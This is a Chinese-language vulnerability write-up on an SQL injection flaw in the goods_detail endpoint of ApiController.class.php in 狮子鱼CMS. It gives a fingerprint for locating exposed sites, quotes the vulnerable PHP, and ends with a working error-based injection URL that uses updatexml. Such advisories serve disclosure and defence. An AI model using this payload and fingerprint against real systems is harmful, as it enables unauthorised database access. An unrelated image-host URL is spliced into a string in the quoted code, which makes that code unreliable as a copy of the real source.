

# 狮子鱼CMS ApiController.class.php SQL注入漏洞

## 漏洞描述

狮子鱼CMS ApiController.class.php  参数过滤存在不严谨，导致SQL注入漏洞

## 漏洞影响

<a-checkbox checked>狮子鱼CMS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"/seller.php?s=/Public/login"</a-checkbox></br>

## 漏洞复现

登录页面如下


存在漏洞的文件为 **ApiController.class.php**  , 关键位置为


```php
public function goods_detail()
	{
		$goods_id = I('get.goods_id');
		//gallery =>img_url
		//goods goods.goods_desc  goods_name group_price  market_price  sell_count group_number 
		
		$sql="select g.*,gd.description,gd.summary,gd.tag from ".
		C('DB_PREFIX')."goods g,".C('DB_PREFIX')."goods_description gd where g.goods_id=gd.goods_id and g.goods_id=".$goods_id;
		
		$goods_arr=M()->query($sql);
		
		$qian=array("\r\n");
		$hou=array("<br/>");
		$goods_arr[0]['summary'] = str_replace($qian,$hou,$goods_arr[0]['summary']); 
		
		$sql="select image from ".C('DB_PREFIX')."goods_image where goods_id=".$goods_id;
		$goods_image=M()->query($sql);
		
		$gallery = array();
		$default_image = '';
		foreach($goods_image as $val)
		{
			$val['img_url'] = str_replace('http','https',C('SITE_URL')).'/Uploads/ http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/'.$val['image'];
			
			if(empty($default_image))
			{
				$default_image = str_replace('http','https',C('SITE_URL')).resize($val['image'], C('goods_thumb_width'), C('goods_thumb_height'));
			}
			
			$gallery[] = array('img_url' => $val['img_url']); 
		}
		
		$goods = $goods_arr[0];
```





漏洞测试为


```plain
https://xxx.xxx.xx.xxx/index.php?s=api/goods_detail&goods_id=1%20and%20updatexml(1,concat(0x7e,md5(1),0x7e),1)
```


